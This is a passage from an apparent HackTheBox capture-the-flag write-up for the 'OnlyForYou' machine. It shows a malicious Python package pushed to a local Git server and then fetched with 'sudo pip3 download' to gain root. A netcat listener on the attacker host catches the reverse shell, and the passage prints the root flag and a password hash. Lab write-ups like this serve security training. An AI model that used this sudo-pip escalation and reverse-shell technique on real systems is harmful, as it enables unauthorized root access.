 ```console
Total 4 (delta 0), reused 0 (delta 0), pack-reused 0
Username for 'http://127.0.0.1:3000': john
Password for 'http://john@127.0.0.1:3000': 
To http://127.0.0.1:3000/john/evyatar9-repo
 * [new branch]      master -> master
```

Now, we can execute the `pip download` command as `root`:
```console
john@only4you:~$ sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/evyatar9-repo/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
Collecting http://127.0.0.1:3000/john/evyatar9-repo/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
  Downloading http://127.0.0.1:3000/john/evyatar9-repo/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
     - 2.8 kB 9.1 MB/s
```

And we successfully obtain a reverse shell:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.14] from only4you.htb [10.10.11.210] 35026
# cat /root/root.txt
163c99f91d14296e0bf57d12bb0a910b
```

And we retrieve the root flag `163c99f91d14296e0bf57d12bb0a910b`.

PDF password
```console
$6$TJLQffVnCXmnRBpq$Shtj6r4nJt672cmV2bhnlK9wb6YlI1tKpJoupUoVM/LFd7vmbLuDX4jtlYW3Lcft2sjWmHk5h58Q8vaFDOtFR.
```